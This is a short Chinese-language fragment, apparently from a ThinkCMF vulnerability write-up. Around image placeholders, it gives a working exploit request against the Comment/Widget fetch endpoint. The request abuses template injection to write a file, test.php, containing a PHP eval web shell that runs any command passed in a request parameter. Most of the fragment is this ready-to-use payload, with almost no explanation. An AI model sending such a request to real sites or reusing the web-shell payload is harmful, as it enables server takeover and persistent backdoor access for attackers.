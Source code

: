 在网站 url 后面输入 README.md

![image](img/07a27de17e5634317df4947197fa0637.png)

另外还有一个说明，你在实际操作的过程中，可能会遇到他一直报这个错

```
url:http://thinkcmf.test/index.php?g=Comment&m=Widget&a=fetch
post:
templateFile=/../public/index
prefix=''
content=<php>file_put_contents('test.php','<?php eval($_REQUEST[11]);')</php> 
```

![image](img/7d5835036488bd74df092a7006baad6b.png)
